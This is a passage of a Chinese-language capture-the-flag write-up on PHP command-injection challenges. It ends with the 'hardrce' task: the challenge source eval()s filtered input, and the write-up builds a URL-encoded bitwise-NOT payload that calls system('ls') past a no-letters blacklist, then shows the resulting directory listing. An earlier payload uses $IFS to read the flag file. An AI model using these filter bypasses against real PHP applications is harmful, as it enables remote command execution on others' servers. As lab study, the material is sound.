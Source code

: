 ```
url=cat$IFS$1/flllllaaaaaaggggggg
```

得到 flag。

### hardrce

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm'])) {
  $wllm = $_GET['wllm'];
  $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
  foreach ($blacklist as $blackitem) {
    if (preg_match('/' . $blackitem . '/m', $wllm)) {
      die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }
  }
  if(preg_match('/[a-zA-Z]/is',$wllm)) {
    die("Ra's Al Ghul说不能用字母哦！");
  }
  echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
  eval($wllm);
} else {
  echo "蔡总说：注意审题！！！";
}
?>
```

发现没有过滤 `%` ，又不能用字母，那就只能尝试下 Urlencode 取反绕过了。

```php
<?php
$a = 'system';
$b = 'ls$IFS$1/';
echo '(~'.urlencode(~$a).')(~'.urlencode(~$b).');';
// (~%8C%86%8C%8B%9A%92)(~%93%8C%DB%B6%B9%AC%DB%CE%D0);
```

构造 Payload 如下

```
wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DB%B6%B9%AC%DB%CE%D0);
```

可以得到回显如下

```
bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

通过构造 Urlencode 取反后通过如下 Payload 就可以得到 flag 了。
